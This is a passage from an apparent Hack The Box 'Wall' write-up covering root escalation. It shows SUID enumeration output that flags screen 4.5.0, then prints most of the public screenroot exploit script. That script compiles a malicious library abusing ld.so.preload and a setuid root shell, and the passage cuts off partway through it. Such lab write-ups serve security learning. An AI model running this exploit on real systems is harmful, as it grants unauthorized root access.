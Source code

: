 <h1>Root exploitation</h1>

<p>Unfortunately I was not able to retrieve the user flag as <code>www-data</code>. Popped over an enumeration script and started looking for pivot avenues. One particularly interesting result was <code>screen-4.5.0</code> which had suid set.</p>

{% highlight shell %}
...
[-] SUID files:
-rwsr-xr-x 1 root root 43088 Oct 15  2018 /bin/mount
-rwsr-xr-x 1 root root 64424 Mar 10  2017 /bin/ping
-rwsr-xr-x 1 root root 1595624 Jul  4 00:25 /bin/screen-4.5.0
-rwsr-xr-x 1 root root 30800 Aug 11  2016 /bin/fusermount
...
{% endhighlight %}

<p>I poked around a bit to see if there were any low-hanging fruit for this privesc and sure enough managed to find a searchsploit exploit.</p>

<p>
<img src="{{ '/assets/htb-wall/root-searchsploit.PNG' | relative_url }}">
</p>

{% highlight shell %}
cat 41154.sh
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017) 

echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);